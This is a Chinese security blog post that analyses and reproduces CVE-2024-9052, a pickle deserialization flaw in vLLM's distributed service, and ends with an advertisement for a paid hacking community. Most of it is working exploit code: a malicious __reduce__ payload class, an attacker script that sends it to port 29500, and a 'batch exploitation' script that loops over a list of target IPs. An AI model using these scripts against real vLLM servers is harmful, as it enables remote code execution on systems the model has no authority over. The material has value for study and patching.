 #  AI安全漏洞之VLLM反序列化漏洞分析与保姆级复现（附批量利用）   
原创 Ting丶  Ting的安全笔记   2024-12-14 02:20  
  
#WingBy小密圈知识星球简介在文末。  
# 前期准备  
  
环境需要：Linux（这里使用kali）、Anaconda  
  
首先安装Anaconda  
  
前言：最好使用linux，如果使用windows可能会产生各种报错（各种各种各种！！！），最好使用Anaconda，方便独立管理虚拟机  
  
使用conda创建虚拟机、python要求3.10  
```
conda create -n vllm_beam python=3.10 -y
```  
  
启动该虚拟机  
```
conda activate vllm_beam
```  
  
安装vllm  
```
pip3 install https://github.com/vllm-project/vllm/releases/download/v0.6.4.post1/vllm-0.6.4.post1+cu118-cp38-abi3-manylinux1_x86_64.whl --extra-index-url https://download.pytorch.org/whl/cu118 -i https://pypi.tuna.tsinghua.edu.cn/simple
```  
  
在安装vllm的时候，虚拟机磁盘剩余空间最好大点，至少6个G如果不够可能会报错  
```
No space left on device //设备上没有空间
```  
  
可以找一个有足够空间的目录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vfgPGEkjQibOlVy1r1mnkyIjUdVlF6KylVvuaLCUNZ5wWnFP9VJuFSSrHCEyB7y3LEg3OjeP4w54gQ/640?wx_fmt=png&from=appmsg "")  
  
然后执行命令 就可以重新安装了  
```
export TMPDIR=/home
```  
# 漏洞介绍  
  
VLLM（  
Virtual Large Language Model  
）是一种旨在提升大型语言模型（LLM）推理效率的先进系统。其核心目标是通过降低计算成本和提升处理速度，来加快 LLM 在推理阶段的表现。传统的 LLM 推理通常需要消耗大量的计算资源和时间，特别是在硬件资源有限的环境中，性能瓶颈显得尤为突出。而 VLLM 采用了创新的架构设计，通过优化内存管理和计算流程，能够在不牺牲模型准确性的前提下，显著提高推理速度，使得推理过程变得更加高效和灵活。  
VLLM是被用于LLM推理和服务的工具库，因此与大模型密切相关  
  
CVE编号：CVE-2024-9052  
  
目前该CVE以及被保留，访问已经看不到了：  
https://nvd.nist.gov/vuln/detail/CVE-2024-9052  
，不知道具体的原因  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vfgPGEkjQibOlVy1r1mnkyIjXY7GjiaSdUcA0UTMSbtV8HnFeY2tFCuGec29HznXTNTy5ze16qGhTsg/640?wx_fmt=png&from=appmsg "")  
  
影响版本：（-∞, 0.6.4.post1）  
https://github.com/vllm-project/vllm/tree/main  
  
也就是说目前是直接影响的全版本、通杀  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vfgPGEkjQibOlVy1r1mnkyIjcl8Cep8Y5fHLIs9bfOiaUicJO9GvMcvBP5NFoNlFDKZZWmaFCoRicNiaVA/640?wx_fmt=png&from=appmsg "")  
# 漏洞原理  
  
vllm开启分布式服务时，未对接收的序列化对象进行相应的校验、过滤，导致攻击者可以向vllm分布式服务发送恶意序列化对象造成RCE  
  
漏洞方法如下  
```
vllm.distributed.GroupCoordinator.recv_object(get_world_group(), src=0)
```  
  
在recv_object方法中，使用了pickle.loads()对接收到的对象数据进行直接的反序列化 如图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vfgPGEkjQibOlVy1r1mnkyIjlBvO8rMS7DuL3EPfaPXMEEezibib872uL3qRWERV7qBBvN5xDSUDm1Qg/640?wx_fmt=png&from=appmsg "")  
  
pickle是python的一个进行序列化和反序列化的库，常见函数如下  
```
//序列化 将Python对象转换成json字符串
pickle.dump()
pickle.dumps()
//反序列化 将json字符串转换成Python对象
pickle.load()
pickle.loads()
```  
  
而模式方法会在一些特定的时候被执行，例如这里用到的__reduce__，使用pickle.loads()进行反序列化时，会自动调用魔术方法__reduce__，因此在该方法中直接返回执行恶意指令，造成RCE。于是构造以下恶意的类。  
```
class payload:
    def __reduce__(self):
        return (__import__('os').system, ("touch /tmp/hacked",))
```  
# 复现过程  
  
首先本地启动一个vllm分布式服务（作为攻击目标），默认端口是29500，使用recv_object方法接收客户端发送过来的对象  
```
from vllm.distributed import (ensure_model_parallel_initialized,
                              init_distributed_environment, get_world_group)
import vllm

init_distributed_environment(backend="gloo", distributed_init_method="tcp://0.0.0.0:29500", rank=1, world_size=2)
vllm.distributed.GroupCoordinator.recv_object(get_world_group(), src=0)
```  
  
忽略警告  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vfgPGEkjQibOlVy1r1mnkyIjjiaVV0OdVCYqqSEiaXq459AQ7FrAplfmO4jE3Wptn9CbMBRSNuDG9m7Q/640?wx_fmt=png&from=appmsg "")  
  
攻击机执行以下代码 发送恶意的序列化对象  
```
from vllm.distributed import (ensure_model_parallel_initialized,
                              init_distributed_environment, get_world_group)
import vllm

class payload:
    def __reduce__(self):
        return (__import__('os').system, ("touch 1.txt",))


init_distributed_environment(backend="gloo", distributed_init_method="tcp://127.0.0.1:29500", rank=0, world_size=2)
vllm.distributed.GroupCoordinator.send_object(get_world_group(), obj=payload(), dst=1)


```  
  
结果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vfgPGEkjQibOlVy1r1mnkyIjfib2HzISjWiaUicX2icLIevTM5WVicV6nJUnlicN7vRCkpzRvRusic4TlVKgg/640?wx_fmt=png&from=appmsg "")  
  
批量漏洞利用脚步（后台回复20241213可获得）  
```
from vllm.distributed import (ensure_model_parallel_initialized,
                              init_distributed_environment, get_world_group)
import vllm

class payload:
    def __reduce__(self):
        return (__import__('os').system, ("touch CVE-2024-9052.txt",))

def getip(file_path):
    ips = []
    with open(file_path, 'r') as file:
        for line in file:
            ip = line.strip()
            if ip:
                ips.append(ip)
    return ips

ips = getip("ips.txt")
for ip in ips:
    print(ip)
    target = "tcp://" + ip
    init_distributed_environment(backend="gloo", distributed_init_method=target, rank=0, world_size=2)
    vllm.distributed.GroupCoordinator.send_object(get_world_group(), obj=payload(), dst=1)

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vfgPGEkjQibOlVy1r1mnkyIjQEic0ezbqamaOs56WV8iaia4L3AK1yZ06mXw044Wz5icpe9MkcvjtnDF1g/640?wx_fmt=png&from=appmsg "")  
  
我们的星球涵盖了红蓝攻防、企业/公益SRC、各类证书挖掘包括但不限于EDU、CNVD等、Java/PHP0Day代码审计、免杀对抗、云安全攻防、CTF、安全开发等等各个方向，还有很多高质量的文章，以及秘密工具。别的星球有的我们未必没有。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vch3Zf5fWXcnZxyodlX736BqPicYyvX9iaibocTSONn67LKoj6JSbpWtU1wtOVrXlrvAaWGVdUUl61AQ/640?wx_fmt=png&from=appmsg "")  
  
  
